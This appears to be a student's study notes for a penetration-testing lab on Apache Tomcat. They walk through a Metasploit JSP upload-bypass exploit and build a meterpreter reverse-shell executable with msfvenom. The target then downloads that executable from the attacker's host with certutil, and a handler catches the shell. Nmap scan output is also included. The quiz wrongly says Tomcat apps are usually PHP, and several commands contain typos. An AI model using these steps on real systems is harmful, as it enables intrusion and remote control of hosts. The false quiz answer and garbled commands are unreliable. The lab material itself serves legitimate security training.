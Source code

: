 - AKA Tomcat Server
- Open Source Java Server
- Port 8080
- HTTP Protocol
- Used for building web applications and web sites

Setup msfconsole
```
service postgresql start
msfconsole
workspace -a Apache
workspace Apache
setg RHOSTS <target_ip>
setg RHOST <target_ip>
```

Scan and Enumerate Target
```
db_nmap -sS -sV -O <target_ip>
```

Exploit Service
```
search type:exploit name:tomcat_jsp
use exploit/multi/tomcat_jsp_upload_bypass
options

set payload java/jsp_shell_bing_tcp
set SHELL CMD
exploit
Crtl-Z
exit
```

Create payload with msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local_ip> LPORT=<local_port> -f exe > meterpreter.exe
```

Setup web server to host payload
```
sudo python3 -m SimpleHTTPServer 80
```

Within the target session, download file from remote server
```
certutil -urlcache -f http://<local_ip>/meterpreter.exe meterepreter.exe 
```

Setup 
```
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOSTS <local_ip>
set LPORT <local_port>
exploit
```

## Quiz

What is the default port used by Apache Tomcat?

	8080


Apache Tomcat can be used to host web applications developed in Java?

	FALSE -> Usually written in PHP
## Lab


A Kali GUI machine and a target machine running a vulnerable java web server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target).  

Your task is to fingerprint the application using the tools available on the Kali machine and then exploit the application using the appropriate Metasploit module.

**Objective:** Exploit the application and retrieve the flag!

Instructions:* Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y. * The IP address of the target machine is mentioned in the file “/root/Desktop/target” * Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1

```
db_nmap -sS -sV -O 10.4.26.6

8080/tcp  open  http               Apache Tomcat 8.5.19
```

```
use exploit/multi/http/tomcat_jsp_upload_bypass

```



```
nmap -p 8080 -A demo.ine.local                                                   

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat 8.5.19
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/8.5.19
|_http-favicon: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 8.1 (97%), Microsoft Windows Server 2012 (96%), Microsoft Windows Server 2012 R2 (96%), Microsoft Windows Server 2012 R2 Update 1 (96%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (96%), Microsoft Windows Vista SP1 (96%), Microsoft Windows Server 2012 or Server 2012 R2 (95%), Microsoft Windows Server 2008 SP2 Datacenter Version (94%), Microsoft Windows 7 or Windows Server 2008 R2 (94%), Microsoft Windows Server 2008 R2 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT     ADDRESS
1   0.03 ms us-east-9 (10.10.42.1)
2   ...
3   9.09 ms demo.ine.local (10.4.16.52)

``